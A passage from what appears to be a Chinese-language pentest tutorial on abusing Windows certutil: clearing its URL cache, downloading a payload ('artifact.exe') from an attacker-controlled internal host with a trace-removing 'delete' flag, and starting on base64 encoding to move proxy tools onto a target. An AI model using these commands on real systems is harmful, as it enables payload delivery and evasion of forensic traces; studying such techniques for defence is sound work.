 执行删除缓存

```plain
certutil -urlcache * delete
```

[![](assets/1701612219-64f8709584164bbe48186861bfccb489.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152052-8ddf1d7e-ca85-1.png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

# certutil base64 加解密

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

[![](assets/1701612219-c9f87b1904138d9f7a2d3035e02af2ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152053-8e63f40e-ca85-1.png)

这里我上传图片测试能够上传成功

[![](assets/1701612219-e89cd1858ea02c41685ad0bddb2c8d46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152054-8ed30c4a-ca85-1.png)

